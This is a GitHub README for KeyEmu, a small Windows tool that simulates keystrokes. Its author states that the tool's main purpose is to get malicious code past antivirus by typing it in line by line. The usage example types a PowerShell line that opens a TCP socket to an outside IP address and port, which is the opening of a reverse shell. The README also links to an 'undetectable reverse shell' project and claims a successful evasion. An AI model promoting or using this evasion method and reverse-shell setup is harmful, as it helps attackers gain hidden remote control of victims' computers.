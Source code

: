 		  
		      ___           ___                       ___           ___           ___     
		     /|  |         /\__\                     /\__\         /\  \         /\  \    
		    |:|  |        /:/ _/_         ___       /:/ _/_       |::\  \        \:\  \   
		    |:|  |       /:/ /\__\       /|  |     /:/ /\__\      |:|:\  \        \:\  \  
		  __|:|  |      /:/ /:/ _/_     |:|  |    /:/ /:/ _/_   __|:|\:\  \   ___  \:\  \ 
		 /\ |:|__|____ /:/_/:/ /\__\    |:|  |   /:/_/:/ /\__\ /::::|_\:\__\ /\  \  \:\__\
		 \:\/:::::/__/ \:\/:/ /:/  /  __|:|__|   \:\/:/ /:/  / \:\~~\  \/__/ \:\  \ /:/  /
		  \::/~~/~      \::/_/:/  /  /::::\  \    \::/_/:/  /   \:\  \        \:\  /:/  / 
		   \:\~~\        \:\/:/  /   ~~~~\:\  \    \:\/:/  /     \:\  \        \:\/:/  /  
		    \:\__\        \::/  /         \:\__\    \::/  /       \:\__\        \::/  /   
		     \/__/         \/__/           \/__/     \/__/         \/__/         \/__/

# KeyEmu🐫
## 🐫What is KeyEmu (KeyboardEmulator)?

KeyEmu🐫 is name after Keyboard Emulator that emulate the keyboard input to the machine as a programmatic way by just a simple command and no external library are needed. This is the modified version of this original [reddit post](https://www.reddit.com/r/PowerShell/comments/3qk9mc/keyboard_keypress_script/) on 2016 by LandOfTheLostPass. It build focus on ✌🏾 main features such as:

 - Emulate the **normal text** typing input as a string
 - Emulate the **press of any special** or (combination of special key in next release)

**Excuse me the code is not that good yet, I just rush to get it fix and work in the way I wanted 🐱‍🏍

## 🐫Why is KeyEmu?

I can only come up with two of these and the second is the main purpose haha (evil):
- The use case of this program could be for **automating simple task** by simply loop 🥨the command using simple program to do same task over time
- **Bypass any security detection** while executing malicious 🦠code by executing code line by line rather then the hole file that one which is difficult to detect by most anti virus out there.

## 🐫How to use KeyEmu?

No big deal super easy just like cooking rice (because I'm Asian) 😂

 1. Download the latest release of [keyemu.exe](https://github.com/panhavad/keyboard-emulator/releases) 
 2. Open CMD
 3. Change directory to the directory that you keep keyemu.exe
 4. Run either of this command to use either of the feature

	**✨To emulate the whole string**
	```
    keyemu -text "$socket = new-object System.Net.Sockets.TcpClient('10.0.123.3', 17576);"
    ```
    NOTE: When you run a complex command like this, be aware of escape character in command line. User ""double quote"" to escape another "double quote".😁
    
    **✨To emulate the RETURN / ENTER key press**
	```
    keyemu -key RETURN
    ```

## 🐫Does it really work?
Hay get a small prove that it really work. 😪 This is the script execute line by line using the command from keyemu that written in batch file then convert to exe. Result of anti virus undetectable. *Wanna see the full script of this shell being bind without malware detection?* [Come here](https://github.com/panhavad/undetectable-reverse-shell-win10)😉

![enter image description here](https://i.postimg.cc/ZKVV19mf/Untitled-Project.gif)

## 🐫Last Message

*All of those feature and command are practically useful or work better when you use this in batch file and convert to exe. And please use it at your own risk.*

